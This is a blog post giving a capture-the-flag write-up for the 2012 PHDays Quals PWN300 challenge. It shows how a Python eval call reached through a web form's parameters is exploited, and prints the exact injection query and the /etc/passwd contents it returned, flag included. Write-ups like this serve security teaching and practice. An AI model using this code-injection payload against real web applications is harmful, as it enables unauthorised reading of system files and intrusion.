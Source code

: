 ```yaml
---
layout: post
title: "2012 PHDays Quals: PWN300 Writeup"
description: ""
category: security
tags: [phdays, phdays quals, ctf]
---
```

{% include JB/setup %}

*[This post is mirrored from my old blog.]*

We were presented with a simple site. It was the admin control panel for the oppressive South Park PD. It allowed the cruel police of South Park to select a citizen, and one of three horrible actions. To teach them a lesson, we were to extract the flag from /etc/passwd.

Submitting the form submitted three parameters:  
actions  
choice  
human

We were given the sources, but I didn't look too hard at them. Chucking rubbish into the variables, we're very quickly able to get a python stack trace. With some more tinkering, we can find that whatever is included in "human" is passed to "actions" as an argument. The output of actions has to be a string, or the program fails.

The query I used to get the flag was:

	&actions=eval&choice=%00&human=str(file("/etc/passwd").read())

I never figured out what choice did, but changing it from a null byte seemed to break things, so I just left it.

The response:

	HTTP/1.1 200 OK
	Date: Sat, 15 Dec 2012 16:07:58 GMT
	Content-Length: 1485
	Content-Type: text/html
	Server: TwistedWeb/12.1.0
	
	# $FreeBSD: src/etc/master.passwd,v 1.42.2.1.2.2 2012/11/17 08:36:10 svnexp Exp $
	#
	root:*:0:0:Charlie &amp; flag -&gt; d9301a72ee12eabb2b913398a3fab50b:/root:/bin/csh
	toor:*:0:0:Bourne-again Superuser:/root:
	daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
	operator:*:2:5:System &amp;:/:/usr/sbin/nologin
	bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
	tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
	kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
	games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
	news:*:8:8:News Subsystem:/:/usr/sbin/nologin
	man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
	sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
	smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
	mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
	bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
	proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
	_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
	_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
	uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
	pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
	www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
	hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
	nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
	phdays:*:1001:1001:User &amp;:/home/phdays:/bin/sh</blockquote>